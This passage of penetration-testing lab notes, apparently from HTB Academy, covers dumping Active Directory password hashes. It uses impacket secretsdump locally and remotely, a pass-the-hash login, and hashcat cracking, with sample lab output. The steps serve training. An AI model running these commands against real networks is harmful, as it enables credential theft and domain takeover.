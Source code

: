 ### Method 3: Impacket secretsdump

#### Local Hash Extraction
```bash
# Extract hashes from downloaded files
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

# Include LSA secrets
impacket-secretsdump -ntds NTDS.dit -system SYSTEM -security SECURITY LOCAL

# Example output format:
# [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
# jmarston:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

#### Remote Hash Extraction
```bash
# Direct remote extraction
python3 secretsdump.py inlanefreight.local/jmarston:Password123!@10.129.201.57

# Just domain credentials
python3 secretsdump.py inlanefreight.local/jmarston:Password123!@10.129.201.57 -just-dc-ntlm

# With hash instead of password
python3 secretsdump.py -hashes :64f12cddaa88057e06a81b54e73b949b inlanefreight.local/Administrator@10.129.201.57
```

## 🔓 Hash Cracking and Analysis

### Extracting Specific Hashes for Cracking

#### HTB Academy Example - Jennifer Stapleton
```bash
# From NTDS.dit output, find Jennifer Stapleton's hash
grep -i "stapleton" ntds_dump.txt
# jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::

# Extract just the NT hash (after the last colon)
echo "161cff084477fe596a5db81874498a24" > stapleton_hash.txt
```

#### Hash Cracking with Hashcat
```bash
# Crack NT hash with rockyou.txt
hashcat -m 1000 stapleton_hash.txt /usr/share/wordlists/rockyou.txt

# With rules for better success rate
hashcat -m 1000 stapleton_hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Show cracked passwords
hashcat -m 1000 stapleton_hash.txt --show

# Example result:
# 161cff084477fe596a5db81874498a24:Password123
```
